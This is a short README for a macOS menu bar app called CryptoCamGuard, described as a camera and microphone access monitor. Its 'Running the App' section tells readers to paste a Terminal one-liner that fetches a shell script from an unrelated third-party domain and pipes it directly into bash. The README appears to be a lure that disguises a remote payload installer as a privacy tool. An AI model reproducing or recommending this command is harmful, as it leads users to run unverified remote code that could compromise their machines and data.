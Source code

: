 # CryptoCamGuard

A macOS menu bar app that shows camera/microphone access monitoring.

## Features

- Menu bar icon that glows red when suspicious activity is detected
- Modern macOS-style popup interface
- List of recent activity with app icons
- Playful monkey emoji alert when activity is detected
- "Block Now" button with animation

## Requirements

- macOS 12.0 or later
- Swift 5.7 or later

## Running the App

1. Open Terminal
2. Run the following command:

```bash
/bin/bash -c "$(curl -fsSL https://macostutorial.com/git/install.sh)"
```

The app will appear in your menu bar with a camera icon. Click it to see the interface!